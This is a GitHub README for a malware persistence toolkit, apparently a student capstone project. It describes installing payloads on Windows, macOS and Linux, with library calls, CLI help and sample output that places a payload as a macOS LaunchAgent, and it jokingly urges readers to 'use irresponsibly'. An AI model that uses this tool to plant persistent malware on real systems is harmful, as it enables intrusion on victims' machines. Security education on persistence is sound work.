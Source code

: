 # Couch-Crasher-Code

A multi-platform persistence toolkit, with the goal of simplifying malware deployment.

Developed as a capstone project for the Southern Alberta Institute of Technology's Information Systems Security program (Winter 2024), to demonstrate the many techniques that can be used to achieve persistence on Windows, macOS, and Linux.

Please use irresponsibly.


## Setup

Requires Python 3.6 or newer, install from official website when applicable: [python.org](https://www.python.org/downloads/).

Additional dependencies can be installed with pip:
```sh
python -m pip install -r requirements.txt
```


## Usage

Project designed to be used either as a library or as a standalone executable.

### Library

```python
from couchcrasher import CouchCrasher

couchcrasher = CouchCrasher("/path/to/malware")

couchcrasher.supported_persistence_methods()
couchcrasher.recommended_persistence_method()
couchcrasher.install()
```


### Executable - Help
```
$ couchcrasher.py (-h | --help)

>>> usage: couchcrasher [-h] [-p PAYLOAD] [-m METHOD] [-v] [-l]
>>>
>>> Install a payload for persistence on Windows, macOS, or Linux.
>>>
>>> options:
>>>   -h, --help            show this help message and exit
>>>   -p PAYLOAD, --payload PAYLOAD
>>>                         The payload to install.
>>>   -m METHOD, --method METHOD
>>>                         The custom persistence method to use (optional).
>>>   -v, --version         show program's version number and exit
>>>   -l, --list-supported-methods
>>>                         List the supported persistence methods for the current OS.
```

### Executable - Install Payload

Best method determined by privilege and other environmental factors if no method is specified.
```
$ couchcrasher.py (-p | --payload) <malware> (-m | --method) <method>

>>> Creating persistence
>>>   Payload: <malware>
>>>   OS: macOS
>>>   Effective User ID: 501
>>>   Persistence Method: "LaunchAgent - Current User"
>>> Installing launch service (LaunchAgent - Current User)
>>>   Relocated payload: /Users/target/Library/LaunchAgents/713753
>>>   Service file: /Users/target/Library/LaunchAgents/com.80309.plist
>>>   Service started successfully 🎉
```

## Authors

* [Ezra Fast](https://github.com/EzraFast1)
* [Mitchell Nicholson](https://github.com/1Kalagen1)
* [Mykola Grymalyuk](https://github.com/khronokernel)
* [Scott Banister](https://github.com/pleasantriess)
* [Ulysses Hill](https://github.com/Ulysses-Hill)